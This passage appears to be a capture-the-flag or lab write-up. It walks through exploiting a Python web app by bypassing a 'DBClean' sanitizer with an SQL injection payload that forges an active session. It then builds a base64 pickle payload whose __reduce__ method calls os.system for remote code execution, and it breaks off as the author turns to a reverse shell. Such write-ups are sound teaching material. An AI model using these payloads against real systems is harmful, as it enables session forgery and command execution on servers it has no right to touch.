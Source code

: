 As we previously saw that the username parameter is first passed in `DBClean` function and then passed to `executescript()`. We can make a SQLi payload such that it leverages the SQLi, bypasses the `DBClean` sanitization and inserts a new active session to the DB.

I'll run the exploit locally first by running the `app.py` file as `python3 app.py`

This will also create a `/tmp/database.db` file.

The db schema is as follows.

![sqlite3 db schema](35.png "sqlite3 db schema")

The `activesessions` table has three fields i.e. session_id, username and timestamp.

The timestamp format can be seen from the `app.py`.

`c.executescript(f"INSERT INTO activesessions (sessionid, timestamp) VALUES ('{session_id}', '{datetime.now().strftime('%Y-%m-%d %H:%M:%S.%f')}')")`

Now the query to insert the active session into the DB.

SQLi Query: `admin';\nINSERT INTO activesessions (sessionid, username, timestamp) VALUES ('123', 'saad', '2023-06-20/**/06:13:22.123456');--`

I made a function for reversing the `DBClean()` function such that if I provide the normal query it would convert into a version suitable for `DBClean()` function.

```python
def DBRestore(string):

    string = string.replace("'", "\\")
    string = string.replace("\n", "%0a")
    string = string.replace(" ", "/**/")

    return string
```

Credits for this idea goes to: https://www.youtube.com/watch?v=PbpDB0jlqbc&ab_channel=Kr1ppl3r

### Generating a payload for RCE

Make a class `doPickle` whose overall purpose is to create a payload that, when deserialized using pickle.loads(), will execute the specified payload as a command using os.system(). 

```python
def doPickle(payload):
    class PickleRce(object):
        def __reduce__(self):
            return (os.system, (payload,))
    
    return base64.b64encode(pickle.dumps(PickleRce()))
```

Next is to create a reverse shell.
